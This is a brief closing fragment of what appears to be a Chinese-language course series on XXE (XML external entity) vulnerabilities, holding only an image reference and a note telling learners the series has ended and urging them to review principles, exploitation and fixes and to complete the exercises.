

---
**课程提示**：本系列XXE课程到此结束。请结合之前的课程内容，理解漏洞原理、利用方式及修复方法，并完成所有实践练习以巩固知识。